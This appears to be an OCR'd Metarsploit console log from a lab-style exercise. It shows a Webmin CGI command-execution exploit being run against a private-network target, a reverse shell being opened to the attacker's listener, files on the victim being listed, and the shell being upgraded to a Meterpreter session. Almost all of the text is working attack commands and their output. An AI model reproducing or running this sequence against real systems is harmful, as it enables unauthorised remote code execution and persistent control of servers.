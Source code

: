 [msf](Jobs:0 Agents:0) exploit(unix/webapp/webmin_show_cgi_exec) >> run -j

[-] Exploit failed: A payload has not been selected.
[*] Exploit completed, but no session was created.
[msf](Jobs:0 Agents:0) exploit(unix/webapp/webmin_show_cgi_exec) >> set payload cmd/unix/reverse
payload => cmd/unix/reverse
[msf](Jobs:0 Agents:0) exploit(unix/webapp/webmin_show_cgi_exec) >> run -j

[*] Started reverse TCP double handler on 10.23.80.154:4444 
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[+] Payload executed successfully
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo XPO8E6SIkUfU3Zsc;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "XPO8E6SIkUfU3Zsc\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.23.80.154:4444 -> 10.10.165.99:40836) at 2025-04-17 20:48:53 +0000

ls
ACLEditor.class
ACLEntry.class
ACLWindow.class
AttributeEditor.class
AttributesWindow.class
BorderPanel.class
BorderPanel.java
CHANGELOG


#UPGRADING TO METERPRETER

[msf](Jobs:0 Agents:1) exploit(unix/webapp/webmin_show_cgi_exec) >> sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  2         shell cmd/unix               10.23.80.154:4444 -> 10.10.165.99:40848 (127.0.0.1)

[msf](Jobs:0 Agents:1) exploit(unix/webapp/webmin_show_cgi_exec) >> session -u 2
[-] Unknown command: session
[msf](Jobs:0 Agents:1) exploit(unix/webapp/webmin_show_cgi_exec) >> sessions -u 2
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [2]

[*] Upgrading session ID: 2
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.23.80.154:4433 
[*] Command stager progress: 100.00% (773/773 bytes)
[msf](Jobs:1 Agents:1) exploit(unix/webapp/webmin_show_cgi_exec) >> sessions 2
[*] Starting interaction with 2...
